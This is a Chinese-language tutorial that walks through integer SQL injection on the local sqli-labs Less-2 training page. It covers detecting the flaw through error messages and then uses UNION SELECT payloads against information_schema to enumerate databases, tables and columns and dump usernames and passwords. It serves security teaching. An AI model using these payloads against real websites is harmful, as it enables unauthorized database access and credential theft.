

整型注入
# SQL 注入之整型注入
本篇使用整型注入来从 0 到 1 进入 “SQL 注入” 的大门。
# 环境准备
当然是先安装 phpStudy，然后一键傻瓜式安装后点击启动按钮
之后点击 MySQL 管理器
双击 localhost，账户名 root，密码 root 即可进入。
打开浏览器，选择 sqli
选择第一个 Setup
出现这个界面，即完成了数据库的初始化
点击后退键回到上一个页面，然后点击 Less-1
出现 SQLI DUMB SERIES-1
接下来以 Less-2 作为例子进行讲解：
# SQL 注入步骤
# ①判断是否有注入 (判断是否未严格校验)
# 1) 可控参数的改变能否影响页面的显示结果
网页让输入 id，可是我们并没有看到交互框，因此猜测有可能是需要发送请求。
点击查看网页源代码，在 Network 这里看到是 GET 请求。
因此我们选择在链接后面加上 id 参数
发现成功令其输出内容。
此时我们再次改变 GET 请求中 id 的值，发现，内容会对应有所变化。
# 2) 输入的 SQL 语句是否能报错
因为能通过数据库的报错，看到数据库的一些语句痕迹
我们假设它后台的查询语句是
select username,password from user where id = $id |
猜想：能否通过加单引号令其出错？
因为：
如果是整型注入漏洞，则像 3’这样的字符传入 $id 处会引发错误。
如果是单引号注入漏洞，像 3’这样的字符传入 $id 处也会引发错误。
黄字部分的报错语句，非常之重要！
near ‘xxxxxxxxxx’ at line 1 是在告诉我们在第 1 行的 xxxxxxx 语句处出现错误，而我们通过加入单引号使其发生错误，错误信息就会帮我们显示了出错的局部代码，也就是 “输出了单引号后面的语句”——LIMIT 0,1。
为了再次确定 near ‘xxxxxxxxxx’ at line 1 中在 LIMIT 0,1 之前的一个单引号是我们输入的单引号，我们再次改变 GET 请求中 "’ '"（单引号）变为 """（双引号）
发现成功令报错信息中 near 'xxxxx’中的 LIMIT 前一个符号发生改变。
#如果是整型注入，加入单引号会报错 |
据目前输入的结果来看，此网页存在 “整型注入” 或者 “单引号注入”
# 3) 输入的 SQL 语句能否不报错
为了查看我们的语句能够成功闭合
那怎么区分到底是整型还是单引号呢？
使用 # 来注释后面语句
#加入#号后，两个语法依旧错误，故都会报错 |
结果确实是报错。
接下来我们删掉单引号
#如果是整型注入，则删掉单引号，保留#号后，不会报错！ |
# ②什么类型的注入
因此，此处经过上述报错信息确定，存在整型注入！
# ③语句是否能够被恶意修改
恶意修改主要指能否再加入一些我们想要的判断条件，比如：
select username,password from user where id = 2 and 0# limit 0,1 |
如果是整型注入无误，这里条件为 “id = 2 and 0”—— 这是永假条件，则不会有任何查询结果。
结果正如我们所料，空空如也。
# ④是否能够成功执行
第三个能满足，其实第四个就顺带就 OK。
# ⑤获取我们想要的数据
关键数据是保存在数据库里面的，关系如下：
数据库 -> 表 -> 字段 -> 值
打开 MySQL，我们可以看到其中有 information_schema 库（这是 MySQL 自带的库，管理所有表信息）
这个库中有三个表非常值得我们关注：
Schemata 表（包含所有的 库名信息 ）、Tables 表（包含所有的 表名信息 ）、Columns 表（包含所有的 列名信息 ）
首先是 Schemeta 表， schema_name 对应着所有数据库的名字。

其次是 Tables 表， table_name 这个列里，存储了 table_schema对应的库 下面的所有表
最后是 Columns 表，通过 table_schema 对应的库， table_name 对应的表，使用 column_name 对应的列名，来唯一地定位某个列。
# 1）构造联合查询
确定的整型注入中，我们需要构造出我们想要的查询内容，比如在 information_schema 库的 Schema 表中获取 schema_name ：
http://127.0.0.1/sqli/Less-2/?id=3 select schema_name from information_schema.schemata # |
但如果像上面这样构造，会报错，我们需要使用到联合查询。
http://127.0.0.1/sqli/Less-2/?id=3 union select schema_name from information_schema.schemata # |
但是，如果像上面这样构造，依旧会报错，在 SQL 查询中，union 前后的两个列 ++ 需要列数完全一致才可拼接 ++。
因此，需要使用占位符来定位前面的查询是多少列：
#占位一个，后面的代码用#注释掉 |
注意，这里的 1,2,3 可以填任何数字或者符号，仅仅为了占位使用，可以被任意 “想要看到的输出内容” 覆盖。
经过多次定位，我们最终得到：前面的查询使用到的是 3 个列。
因此有：
http://127.0.0.1/sqli/Less-2/?id=3 union select 1, 2, schema_name from information_schema.schemata # |
虽然正确显示，但是我们查询的内容并没有显示出来。这是因为，使用 union 查询，还有个 bug 就是如果前面的查询有效，最终结果会在前面查询到的结尾后面拼接。
为了让后面查询到的内容（我们 想要看到的数据 ）提前，我们需要令前面的查询失效，简单的方法就是令 id = 39888 这样平常不会使用的奇怪数字：
http://127.0.0.1/sqli/Less-2/?id=39888 union select 1, 2, schema_name from information_schema.schemata # |
# 2）拼接多组内容在同一行输出、寻找所在库
OK，我们在第二个占位符（也就是数字 2 所在的位置）上，看到输出了一个 schema_name，但是我们想要输出所有的 schema_name，怎么办？
使用 MySQL 查询语句提供的 group_concat () 函数
http://127.0.0.1/sqli/Less-2/?id=39888 union select 1, group_concat(schema_name), schema_name from information_schema.schemata # |
可以看到，原本占位符 2 所在的位置，已经被一组输出内容所替换。
除了 group_concat ()，我们还可以使用：
#输出当前使用数据库的名称 |
接着我们查询所在数据库的名字：
http://127.0.0.1/sqli/Less-2/?id=39888 union select 1, group_concat(schema_name), database() from information_schema.schemata # |
哦，原来是在 security 数据库中
# 3）确定想从某个库中拿到什么表，从表中拿到什么列
我们看看从 security 库中都可以读取什么表？
核心 —— 在 information_schema 库的 Tables 表中，查询当 table_schema 的值为我们刚刚获取的 security 库时
http://127.0.0.1/sqli/Less-2/?id=39888 union select 1, group_concat(table_name), database() from information_schema.tables where table_schema = database() # |
获取到 security 库中的所有表为： emails 、 referers 、 uagents 、 users
我们比较关心账号密码相关，所以眼光聚焦到 users 表。
核心 —— 在 information_schema 库的 Columns 表中，查询当 table_schema 的值为我们刚刚获取的 security 且 table_name 为 users 时
http://127.0.0.1/sqli/Less-2/?id=39888 union select 1, group_concat(column_name), database() from information_schema.columns where table_schema = database() and table_name = 'users' # |
获取到 security 库中，users 表里所有列为： id 、 username 、 password
我们想要获取 username 和 password 的全部对应关系，使用 concat_ws 函数，把 username 和 password 用冒号拼接起来：
核心 —— 由于已经知道了所在 security 库，users 表，因此直接 select xxxx from security.users
http://127.0.0.1/sqli/Less-2/?id=39888 union select 1, group_concat(concat_ws(':', username, password)), 3 from security.users # |
小练习
#1.查看注入类型 |
至此，整型注入演示完毕。